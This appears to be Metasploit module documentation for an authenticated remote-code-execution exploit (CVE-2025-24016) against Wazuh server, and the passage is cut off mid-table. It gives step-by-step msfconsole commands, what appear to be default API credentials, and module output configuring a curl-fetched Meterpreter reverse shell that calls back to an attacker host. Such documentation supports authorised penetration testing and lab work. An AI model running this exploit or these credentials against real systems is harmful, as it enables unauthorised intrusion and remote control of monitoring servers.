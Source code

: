 ## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/wazuh_auth_rce_cve_2025_24016`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=Unix/Linux Command>`
- [ ] `exploit`

you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings.

## Options
**API Credentials:**
`API_PWD` Wazuh API password (MyS3cr37P450r.*-)
`API_USER` Wazuh API user (wazuh-wui)

## Scenarios
### Wazuh server 4.8.2 on Docker Desktop
```msf
msf6 exploit(linux/http/wazuh_auth_rce_cve_2025_24016) > options

Module options (exploit/linux/http/wazuh_auth_rce_cve_2025_24016):

   Name       Current Setting   Required  Description
   ----       ---------------   --------  -----------
   API_PWD    MyS3cr37P450r.*-  yes       Wazuh API password
   API_USER   wazuh-wui         yes       Wazuh API user
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: sapni, socks4, socks5, http,
                                           socks5h
   RHOSTS     192.168.201.85    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      56000             yes       The target port (TCP)
   SSL        true              no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                 yes       Path to the wazuh manager
   VHOST                        no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FETCH_COMMAND   CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE    false            yes       Attempt to delete the binary after execution
   FETCH_FILELESS  none             yes       Attempt to run payload without touching disk by using anonymous handles, requires Linux ≥3.17 (for Python
                                               variant also Python ≥3.8 (Accepted: none, bash, python3.8+)
   FETCH_SRVHOST                    no        Local IP to use for serving payload
   FETCH_SRVPORT   8080             yes       Local port to use for serving payload
   FETCH_URIPATH                    no        Local URI to use for serving payload
   LHOST           192.168.201.10   yes       The listen address (an interface may be specified)
   LPORT           4444             yes       The listen port


   When FETCH_COMMAND is one of CURL,WGET:

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
```